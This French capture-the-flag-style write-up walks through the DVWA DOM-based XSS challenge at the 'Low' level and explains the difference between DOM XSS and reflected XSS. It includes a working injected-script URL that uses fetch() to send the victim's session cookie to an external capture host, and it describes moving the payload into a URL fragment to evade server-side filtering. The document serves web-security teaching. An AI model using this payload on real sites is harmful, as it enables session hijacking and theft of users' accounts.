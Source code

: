 # Niveau "Low"

Ce challenge propose de pouvoir choisir la langue désirée parmi une liste déroulante :

![](../../../../.gitbook/assets/78714abbe98f58a09745e8a3bca721d6.png)

L'action de modification de la langue est une requête **`GET`** :

![](../../../../.gitbook/assets/3d16fd07fc8a2baf87b8dac4949dae93.png)

Voici la requête visualisée via Burp :

![](../../../../.gitbook/assets/dbdb7b36e704d06cd0c309925c0fac80.png)

Je modifie alors directement la valeur de ce paramètre en injectant un script :

![](../../../../.gitbook/assets/37e46a651a2ffa75df8fac16de705fb1.png)

Cela fonctionne et ressemble fortement à une XSS réfléchie. Il est possible d'aller plus loin en récupérant le jeton de session de la victime (authentifiée) :

```http
http://192.168.56.203:8080/vulnerabilities/xss_d/?default=%3Cscript%3Efetch(%27https://domxss.free.beeceptor.com?cookie=%27+document.cookie);%3C/script%3E
```

![](../../../../.gitbook/assets/aded7d9ebd1e5ceac370b117e448738d.png)

C'était plutôt simple puisque le serveur n'effectue aucun filtrage. Mais quelle est la différence entre la faille XSS basée sur le DOM (DOM XSS) et la XSS réfléchie ?

La XSS DOM s'effectue en local au sein du navigateur lui-même, très souvent quelques lignes de javascript modifiant le DOM à la volée. Dans le cas du challenge DVWA, la liste déroulante est mise à jour par le Javascript suivant (visible dans le code HTML) :

```markup
<form name="XSS" method="GET">
  <select name="default">
	<script>
	  if (document.location.href.indexOf("default=") >= 0) {
		  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
		document.write("<option value='English'>English</option>");
		document.write("<option value='French'>French</option>");
		document.write("<option value='Spanish'>Spanish</option>");
		document.write("<option value='German'>German</option>");
	</script>
  </select>
	<input type="submit" value="Select" />
</form>
```

La ligne 4, 5 et 6 récupèrent la valeur du paramètre nommé `default` puis la renseigne en tant que première valeur de la liste déroulante. Un exemple pour une valeur aléatoire :

![](../../../../.gitbook/assets/2cc40c6d00003fc8078f390fe2b0c4c8.png)

Si le script récupère directement la valeur dans l'URL saisie par l'utilisateur, à quoi sert l'envoi de ce paramètre au serveur ?

Réponse : à rien. D'ailleurs il est optionnel car il faut bien comprendre que dans une faille XSS basée sur le DOM la payload malicieuse n'est pas présente dans la réponse HTTP du serveur.

Afin de mieux cerner ce concept, il est possible de remplacer le `'?'` du paramètre par un fragment `'#'`. Le fragment a l'avantage de ne pas être envoyé au serveur :

![](../../../../.gitbook/assets/21ec9e476952d134d28d1ab8f1e5d253.png)

Pour preuve, voici la requête associée :

![](../../../../.gitbook/assets/c3a6645c7ed9301c4f6a1c01a3375be0.png)

Le vol de cookie va par contre fonctionner de la même façon, mais cela permet de contourner tous les contrôles implémentés côté serveur (si présents) :

![](../../../../.gitbook/assets/26008712a316600e83ce5e1a894b0478.png)
